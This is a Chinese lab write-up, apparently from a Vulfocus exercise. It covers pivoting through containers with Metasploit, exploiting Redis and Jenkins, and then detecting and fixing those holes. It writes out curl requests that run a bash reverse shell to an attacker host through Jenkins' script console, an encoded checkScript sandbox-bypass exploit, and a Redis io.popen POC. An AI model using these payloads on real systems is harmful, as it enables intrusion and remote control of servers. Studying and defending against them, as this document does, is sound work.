这里发现原本的shell就是meterpreter shell，但是影响不大。接下来通过hosts查看主机信息时发现报了一个错误：数据库没有成功连接：


另开一个终端尝试通过超级用户连接到PostgreSQL数据库：
```
sudo -u postgres psql  #postgres为超级用户的用户名，psql为密码
```
进入数据库之后更改数据库用户管理文件
```
nano /usr/share/metasploit-framework/config/database.yml
```


重启数据库服务之后再次查看数据库运行状态，发现数据库成功连接


2.成功连接数据库之后尝试进入先前升级后的session中查看容器ip地址情况


发现真正的内网地址是192.169.85.4，于是通过```arp```和```route```指令查看网络拓扑情况，发现入口靶标主机还与192.169.85.0存在通信


3.接下来进入到先前升级过的会话中为```192.169.85.0/24```这个目标网段设置代理

通过```run autoroute -p```查看session是否建立


确认虚拟路由成功建立起来了，现在攻击机可以通过session 5来直接访问目标网段，也就是第一层内网了。正向代理完成。

4.得到内网目标网段后通过portscan端口扫描模块来对内网主机存在的漏洞进行端口扫描


依旧利用```show options```来查看模块需要配置的参数情况，对"required"为"yes"的参数进行配置：


接下来通过exploit指令运行端口扫描，成功发现内网中存活的两台主机：


接下来通过db_nmap对两台主机进行扫描，也能成功扫描到


5.通过socks_proxy模块进行代理，对攻击机1080端口进行监听，通过exploit运行


在攻击机上另开终端查看1080端口监听情况,发现1080端口成功开启代理


编辑```/etc/proxychains.conf```文件添加一个socks5的代理


之后开启一个通过代理服务之后的端口扫描,会发现漏洞段口```6379```是成功开放的，虽然这里的端口状态是"filtered"，但是是可以成功访问的。


6.验证完内网主机端口开放之后，通过metasploit对search功能查找相关漏洞单利用模块，这里我使用的是```exploit/linux/redis/redis debian sandbox_escape```模块


完成该模块的配置参数的编写，其中RHOST为目标主机的ip地址，由于第一层内网有两台主机，于是这里分别进行两次攻击：

同时场景的进度完成40%

接下来对第二台主机进行参数配置和攻击


同时场景进度来到60%，完成第一层内网的渗透


## 对redis的攻击
### 直接使用redis容器进行攻击操作


在之前的攻击中，我们已经得到了redis容器内的shell的root访问权限，能够把redis的shell界面反弹到我的攻击者主机上，现在在redis的shell使用nmap扫描这个子网网段内的内容，可以扫描出三个ip地址，192.168.110.1对应的是网关，192.168.110.2对应redis容器，剩下的192.168.110.3是开启了8080和50000端口，正好对应了jenkins的两个默认开启的端口，可以说明这就是我们的攻击对象




针对之前之前攻击同学的操作，我认为可以不开代理能够直接在redis的shell中进行攻击，因为jenkins是能够主动向我的攻击者主机发起连接的，只要利用redis的shell向jenkins发送恶意漏洞利用就行

把反弹shell进行base64编码

执行exp

攻击者监听端口收到反弹shell


### 使用密码本爆破admin若口令获得管理员账号登录权限

redis能够访问jenkins，利用python脚本使用密码本进行爆破，获取到管理员用户名和密码后在redis的shell中运行下面的代码

```
JENKINS_URL="http://192.168.110.2:8080"
ATTACK_IP="192.168.56.104"
ATTACK_PORT="12333"
USERNAME="admin"
PASSWORD="admin"   

curl -X POST "$JENKINS_URL/script" \
  --user "$USERNAME:$PASSWORD" \
  --data-urlencode "script=def proc = ['bash','-c','bash -i >& /dev/tcp/$ATTACK_IP/$ATTACK_PORT 0>&1'].execute()" \
  --header "Content-Type: application/x-www-form-urlencoded"
```


以下是不使用账号密码信息的结果，无法获得反弹shell
```
JENKINS_URL="http://192.168.110.2:8080"
ATTACK_IP="192.168.56.104"
ATTACK_PORT="12333"   

curl -X POST "$JENKINS_URL/script" \
  --data-urlencode "script=def proc = ['bash','-c','bash -i >& /dev/tcp/$ATTACK_IP/$ATTACK_PORT 0>&1'].execute()" \
  --header "Content-Type: application/x-www-form-urlencoded"
```


## 漏洞利用检测及缓解与修复
### 入口
#### 漏洞检测
**抓容器流量并保存**
```
sudo tcpdump -i br-18123ea75823 host 172.19.0.2 -w /tmp/container_traffic.pcap

```


##### **将文件导出并进行分析** 
```
scp kali@192.168.107.16:/tmp/container_traffic.pcap .
```


由于我们知道该攻击是在9200端口进行攻击我们通过筛选
```
tcp.port == 9200 && http.request.method == "POST"
```
得到


选择可疑的http包找到追踪流


##### **通过追踪流可得到**
**请求部分：** script_fields：用于执行自定义 Groovy 脚本，这是该漏洞的利用点

**script内容：** 使用 java.lang.Math.class.forName("java.lang.Runtime") 反射方式访问 Runtime 类，为后续执行 exec() 铺垫

**lang: groovy：**	指定脚本语言为 Groovy

**检测**：这段请求内容看起来像是 Elasticsearch 的一个利用示例，涉及通过脚本字段（script_fields）执行Java反射类的调用，从而写入恶意文件到服务器临时目录（/tmp/qAHnhR.jar），属于典型的Elasticsearch远程代码执行（RCE）漏洞利用场景。


##### **通过响应部分可得到**
服务端返回了 class java.lang.Runtime，说明攻击者成功访问了 Runtime 类


**由此可得到完成攻击**


#### 四，漏洞修复
根据上述内容和网上查阅的资料可得知该漏洞是通过执行 Groovy 动态脚本进行攻击，所以可以通过修改配置禁用 Groovy来阻止这个攻击从而完成修复

**我们打开容器并修改其配置文件**


**重新执行攻击**

攻击失败，漏洞修复成功

### redis修复

###### 首先安装镜像


###### 工具验证

针对redis这个工具，我们需要用到redis-cli这个包，通过验证是否存在


###### 连接环境并且开始尝试

__首先要连接环境__


__第一次尝试__

由于在上帝视角下，我们知道这个漏洞是lua脚本执行的漏洞，我们首先尝试直接使用命令来把脚本执行直接禁用
<br>
我们发现这个命令被拒绝了，这有可能是因为vulfocus为了增加一定的难度，所以我们尝试一下是否是config命令被完全禁用
<br>
我们可见：
```bash
192.168.6.133:24984> config help
1) CONFIG <subcommand> arg arg ... arg. Subcommands are:
2) GET <pattern> -- Return parameters matching the glob-like <pattern> and their values.
3) SET <parameter> <value> -- Set parameter to value.
4) RESETSTAT -- Reset statistics reported by INFO.
5) REWRITE -- Rewrite the configuration file.
```
所以我们知道config命令还可以使用，可能只有一部分config命令被禁用。

__第二次尝试__

所以，我们选择进入容器内进行操作，尝试更改docker的配置文件进行更改

<br>
由于redis容器比较简陋，没有编辑工具，我们安装vim这个工具<br>
<br>
接下来我们查看并且修改配置文件，添加以下两行
```bash
rename-command EVAL ""
rename-command EVALSHA ""
```

其后，由于我们需要启用配置文件，重启容器进行尝试，为了防止重启之后配置文件回退，我们备份一份<br>
在重启文件之后我们再查看一次文件，没有被回退，直接进入下一part

__漏洞验证__

现在，我们使用主机连接redis容器，尝试进行脚本执行
<br>
在图中，我们首先使用了以下命令
```bash
eval "return 1" 0
```
这是一个eval脚本执行的最简单的命令尝试，回显中无法执行eval命令，说明漏洞已经修复<br>
其次，我们尝试一下漏洞利用常见的POC
```
eval 'return io.popen("id"):read("*a")' 0
```
上图中可以看到也不可以执行，说明漏洞利用完全封堵

### jenkins修复
#### 使用exp.py针对漏洞的攻击，


```
GET /descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=True&value=public+class+x%7Bpublic+x%28%29%7Bnew+String%28%2262617368202d63207b6563686f2c596d467a614341746153412b4a6941765a4756324c33526a634338784f5449754d5459344c6a55324c6a45774e4338784d6a4d7a4d794177506959787d7c7b6261736536342c2d647d7c7b626173682c2d697d%22.decodeHex%28%29%29.execute%28%29%7D%7D HTTP/1.1
Host: 192.168.110.2:8080
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.27.1


HTTP/1.1 200 OK
Date: Sun, 08 Jun 2025 17:51:04 GMT
X-Content-Type-Options: nosniff
Content-Type: text/html;charset=utf-8
Content-Length: 6
Server: Jetty(9.4.z-SNAPSHOT)

<div/>
```

`GET /descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=True&value=...
`

这个 URL 是 Jenkins Script Console 中插件的参数验证接口。

/descriptorByName/.../checkScript 是 Jenkins 用来检测 Groovy 脚本合法性的接口（一般用于 UI 检查，不应被滥用执行恶意代码）。

sandbox=True 表示在沙箱中执行（但此漏洞可以逃逸沙箱或绕过限制）。

value=public class x{ public x() { ... } } 传递的是一段 Java/Groovy 类定义

沙箱中执行的内容是`new String("62617368202d63207b6563686f2c596d467a614341746153412b4a6941765a4756324c33526a634338784f5449754d5459344c6a55324c6a45774e4338784d6a4d7a4d794177506959787d7c7b6261736536342c2d647d7c7b626173682c2d697d".decodeHex()).execute()
`
Hex解码后再base64解码就是标准的反弹shell
`bash -i >& /dev/tcp/192.168.56.104/12333 0>&1
`


#### 获得用户名和密码的管理员脚本攻击


```
JENKINS_URL="http://192.168.110.2:8080"

JENKINS_URL="http://192.168.110.2:8080"
.]0;root@a4c3a9a29065: /etc/cron.d.root@a4c3a9a29065:/etc/cron.d# .[K
ATTACK_IP="192.168.56.104"

ATTACK_IP="192.168.56.104"
ATTACK_PORT="12333"


.]0;root@a4c3a9a29065: /etc/cron.d.root@a4c3a9a29065:/etc/cron.d# 
USERNAME="admin"

ATTACK_PORT="12333"
.]0;root@a4c3a9a29065: /etc/cron.d.root@a4c3a9a29065:/etc/cron.d# 
PASSWORD="admin"

USERNAME="admin"
.]0;root@a4c3a9a29065: /etc/cron.d.root@a4c3a9a29065:/etc/cron.d# 


PASSWORD="admin"
.]0;root@a4c3a9a29065: /etc/cron.d.root@a4c3a9a29065:/etc/cron.d# 
curl -X POST "$JENKINS_URL/script" \


.]0;root@a4c3a9a29065: /etc/cron.d.root@a4c3a9a29065:/etc/cron.d# 
  --user "$USERNAME:$PASSWORD" \

curl -X POST "$JENKINS_URL/script" \
> 
  --data-urlencode "script=def proc = ['bash','-c','bash -i >& /dev/tcp/$ATTACK_IP/$ATTACK_PORT 0>&1'].execute()" \

  --user "$USERNAME:$PASSWORD" \
>   --data-urlencode "script=def proc = ['bash','-c','bash -i >& /dev/tcp/$ATTACK_IP/$ATTACK_PORT 0>&1'].execute()" \
> 
  --header "Content-Type: application/x-www-form-urlencoded"

  --header "Content-Type: application/x-www-form-urlencoded"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed

  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0


  
  <!DOCTYPE html><html><head resURL="/static/03cce89a" data-rooturl="" data-resurl="/static/03cce89a">
```

```
curl -X POST "$JENKINS_URL/script" \
  --user "$USERNAME:$PASSWORD" \
  --data-urlencode "script=def proc = ['bash','-c','bash -i >& /dev/tcp/$ATTACK_IP/$ATTACK_PORT 0>&1'].execute()" \
  --header "Content-Type: application/x-www-form-urlencoded"

```

这段请求：
- 使用的是 Jenkins 的 脚本执行接口 /script
- 使用的是 基础认证（admin:admin）
- 执行的 Groovy 脚本中使用 .execute() 来运行 Bash 命令反弹 Shell
- 攻击目标为 '$ATTACK_IP:$ATTACK_PORT'，即攻击者主机监听的反弹 shell 端口。

攻击效果判断：
```
<!DOCTYPE html><html><head ...>
<title>Jenkins</title>
...
<a href="/user/admin" class="model-link inside inverse"><b>admin</b></a>

```
说明：
- 请求成功返回了 Jenkins 页面，并且显示已登录用户为 admin
- 这意味着 认证成功 + 命令执行接口可达


### 一些缓解措施
- 使用jenkins web服务端界面对用户权限进行一些设置




- 更新和禁用风险插件


- 禁用jenkins的脚本执行功能



- 傻瓜式的一刀切方法，直接禁止redis的ip访问jenkins

写入防火墙规则禁止redis的访问


检查规则是否生效


修改后使用curl查看redis能否对jenkins进行访问，发现没有输出,再查看防火墙信息发现存在被拦截的pk包，说明redis确实发送了请求，但jenkins不进行回应


### 漏洞修复

对jenkins升级，拉取修复了漏洞版本的镜像，这里拉取了2.138.2


运行之前该容器


使用curl访问接口，发现访问漏洞存在的接口会直接跳转到用户登录界面，


在旧版本中curl进行对比，旧版本能够通过接口运行一些命令


